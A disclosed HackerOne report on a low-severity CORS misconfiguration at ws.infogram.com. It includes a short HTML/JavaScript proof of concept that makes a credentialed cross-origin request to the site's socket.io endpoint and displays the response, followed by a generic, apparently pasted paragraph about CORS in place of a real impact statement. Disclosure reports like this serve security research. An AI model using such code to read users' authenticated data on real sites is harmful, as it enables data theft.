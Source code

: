 # CORS on (ws.infogram.com)

## Report Details
- **Report ID**: 372452
- **URL**: https://hackerone.com/reports/372452
- **State**: Closed
- **Severity**: low
- **Submitted**: 2018-06-28T16:31:36.887Z
- **Disclosed**: 2018-10-08T08:20:46.193Z

## Reporter
- **Username**: real_loser
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: infogram

## Vulnerability Information
Hey Team i don't know if it's valid or not i just want to let you know about this thanks.
```````````
Exploit
``````````````````
<html>
<script>
var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://ws.infogram.com/socket.io/?EIO=3&transport=polling&t=MH7BU79',true); req.withCredentials = true; req.send('{}'); function reqListener() { alert(this.responseText); };
</script>
</html>

## Impact

As with superpowers, it’s all about knowing how to use it. Therefore, CORS is not necessarily a bad thing. We’ve seen in many cases that CORS has legitimate use, and this is why it was invented and made a web standard in the first place. However, you need to be aware of the CORS configuration you set up in your server and the side effects this has on security.

## Attachments
- Capture.JPG
